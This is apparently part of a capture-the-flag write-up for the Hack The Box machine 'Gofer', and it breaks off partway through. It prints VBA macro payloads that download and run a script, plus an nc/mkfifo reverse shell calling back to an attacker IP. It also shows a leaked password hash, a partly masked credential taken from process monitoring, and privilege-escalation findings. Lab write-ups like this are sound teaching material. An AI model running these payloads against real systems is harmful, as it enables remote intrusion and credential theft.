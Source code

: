 ### Payload 1 - Sent first
```vb
Sub Main
	Shell("curl 10.10.14.139/shell -o /tmp/shell")
End Sub
```

### Payload 2 - Sent second
```vb
Sub Main
	Shell("/bin/sh /tmp/shell")
End Sub
```

### Contents of "shell"
```bash
#!/bin/bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.139 9001 >/tmp/f
```

# Reverse shell returned
```
```
# Script - linpeas.sh results

Below is a list of the interesting finds linpeas.sh discovered. Unfortunately it was not possible to crack the hash. The `notes` binary seems relevant to the box but the current user could not read/execute it. The `tcpdump` binary could be interesting but was not used to solve the box.

```
tbuckley:$apr1$YcZb9OIz$fRzQMx20VskXgmH65jjLh/
/usr/local/bin/notes (Unknown SUID binary!)
/usr/bin/tcpdump cap_net_admin,cap_net_raw=eip
```
# pspy64 results

To proceed it seemed necessary to access a user account which had access to the `notes` binary. After running pspy64 to check the processes there was an automated script automatically logging into the web proxy. The username and password were visible in the parameters.  This password was valid and allowed a user switch to `tbuckley`

```
/usr/bin/curl http://proxy.gofer.htb/?url=http://gofer.htb --user tbuckley:ooP4dietie3o_h*****
```

# Reversing the notes binary
The user `tbuckley` had access to read and execute the binary. Upon execution it give a number of various options shown below.
